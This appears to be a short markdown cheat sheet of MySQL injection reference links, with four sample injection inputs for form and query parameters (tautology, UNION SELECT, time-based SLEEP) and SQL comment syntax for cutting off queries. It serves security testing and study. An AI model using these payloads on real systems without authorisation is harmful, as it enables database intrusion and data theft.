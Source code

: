 # Security - Injections

### MySql
- https://www.pythian.com/blog/mysql-injection-sleep/
- https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt
- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- https://www.owasp.org/index.php/Blind_SQL_Injection
- https://nvisium.com/blog/2015/06/17/advanced-sql-injection/
- https://www.slideshare.net/nuno.loureiro/advanced-sql-injection-attacks
- http://seclists.org/bugtraq/2005/Feb/att-288/zk-blind.txt
- http://www.unixwiz.net/techtips/sql-injection.html
- http://www.sqlinjection.net/
- http://sqlmap.org/

#### Inputs
Try out these inputs for form and query parameters

```
' OR 1=1 -- 
') OR '' IN ('
') OR login LIKE 'a%' AND SLEEP('5
') UNION SELECT 'a', ('b
```

#### Comments
You can use comments to terminate the rest of a query for an injection 
```
-- commented
# commented
/* commented */
```